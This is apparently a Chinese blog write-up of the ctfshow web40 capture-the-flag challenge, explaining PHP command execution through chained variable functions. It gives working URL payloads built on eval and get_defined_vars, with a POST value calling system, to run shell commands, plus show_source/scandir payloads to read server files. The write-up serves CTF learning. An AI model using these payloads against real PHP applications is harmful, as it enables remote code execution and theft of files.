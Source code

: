 ```yaml
---
title: php变量函数
date: 2024-05-15 21:53:24
permalink: /pages/d74e00/
categories:
  - web
tags:
  - php
author: 
  name: ajay
  link: https://the0n3.top
---
```


# ctfshow web40 命令执行_php变量函数

> 使用php函数让服务器接收并执行自己的命令，获取权限或读取文件  

## 执行命令

```php
get_defined_vars()    # 获取所有系统定义的变量，用户定义的变量，post,get,file等，返回一个数组
next()                # 指向数组中变量的指针
array_pop()           # 弹出数组中最后一个元素
eval()                # 执行表达式或参数字符串命令
```

从里到外构造一下，执行最后一个定义的变量

连起来构造：  
**payload：url/?c=eval(array_pop(next(get_defined_vars())));**  

这个c的值会先获取服务器定义的所有变量，再利用这个数组的栈机制和next指针，获取服务器最后一个变量并执行  

构造完，他的变量数组最后一个定义的什么以及他会执行什么我们都不知道，用post给他传一个**1=system("tac f*");** 作为最后一个变量并执行  
 
## 读文件

```php
getcwd()            #  函数返回当前工作目录。它可以代替pos(localeconv())

localeconv()        #  返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为"."

pos()               # 输出数组第一个元素，不改变指针；

current()           # 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样

scandir()           # 函数返回指定目录中的文件和目录的数组。这里因为参数为"."所以遍历当前目录

array_reverse()     # 数组逆置

next()              # 将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以

show_source()       # 查看源码
```

每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。

提示：该函数不会移动数组内部指针

**payload：url/?c=show_source(next(array_reverse(scandir(getcwd()))));**

**payload：url/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));**

船新玩法**var_dump**函数，待解锁！  

**类似函数var_export**
